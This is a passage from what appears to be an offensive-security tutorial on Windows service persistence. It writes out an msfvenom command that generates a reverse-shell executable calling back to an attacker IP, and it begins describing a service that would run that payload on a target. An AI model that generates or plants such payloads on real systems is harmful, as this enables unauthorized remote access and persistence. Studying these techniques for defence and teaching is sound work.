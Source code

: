 Let's go to consider practical example: how to create and run a Windows service that receives a reverse shell for us.

First of all create reverse shell `exe` file via `msfvenom` from my attacker machine:    

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
```

![pers](./images/54/2022-05-09_16-53.png){width="80%"}    

![pers](./images/54/2022-05-10_17-17.png){width="80%"}    

Then, create service which run my `meow.exe` in the target machine.

The minimum requirements for a service are the following:
- A Main Entry point (like any application)    
- A Service Entry point    
- A Service Control Handler    
